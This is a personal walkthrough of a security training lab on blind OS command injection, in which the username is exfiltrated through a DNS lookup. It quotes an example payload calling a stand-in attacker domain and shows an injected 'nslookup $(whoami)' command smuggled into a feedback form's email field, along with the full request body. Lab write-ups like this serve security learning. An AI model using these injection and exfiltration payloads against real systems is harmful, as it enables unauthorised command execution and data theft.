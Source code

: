 # Lab Blind OS command injection with out-of-band data exfiltration

## Objective:
 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

## Big Idea:

The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:

& nslookup `whoami`.kgji2ohoyw.web-attacker.com &

This will cause a DNS lookup to the attacker's domain containing the result of the whoami command 

wwwuser.kgji2ohoyw.web-attacker.com


-----------------------------------

This is what the lab welcome page looks like

![[Pasted image 20210923211500.png]]

Visiting the "Submit feedback" link responds to the following page. 

Looks Juicy!

![[Pasted image 20210923211536.png]]

One of these values is vulnerable to command injection. This is when user input parameters in a website can force the application to execute commands. 

I sent the following, and intercepted the request with Burp Intercept. 

![[Pasted image 20210923211735.png]]

![[Pasted image 20210923211810.png]]

I will attack the "email" value

First, since this is data exfil lab, I need to setup a listener for the exfiltrated data. Burp Collaborator is a function that comes with Burp Pro. It gives me a unique domain, and listens for any DNS or web requests and outputs those requests to my Burp Collaboartor client. It is great for testing out of band techniques. 

To start burp collaborator, go to Burp > Burp Collaborator Client

![[Pasted image 20210923212129.png]]

This started a listener and gave me the following domain.
nzqyy86k404hxyr4tkwv45bk6bc10q.burpcollaborator.net

Now, going back to the command injection, I want to have the target execute the following command

`nslookup $(whoami).nzqyy86k404hxyr4tkwv45bk6bc10q.burpcollaborator.net`

That will send a dns query containing the user that the web application is running as. 

I will inject that command in the email parameter

`nslookup $(whoami).nzqyy86k404hxyr4tkwv45bk6bc10q.burpcollaborator.net`

This is what the body looked like after injecting the above payload into the email parameter.

csrf=6b9o9YhnDAT4GIcsE94GZQ8UUgHDTRCU&name=bagelHacks&email=bagelHacks%2540hacker.hacker`nslookup+$(whoami).nzqyy86k404hxyr4tkwv45bk6bc10q.burpcollaborator.net`&subject=test&message=testing

![[Pasted image 20210923212641.png]]

After sending the command, I received a DNS query containing the username of "peter-8i7dNd" on my Burp Collaborator client

![[Pasted image 20210923212713.png]]

![[Pasted image 20210923212839.png]]
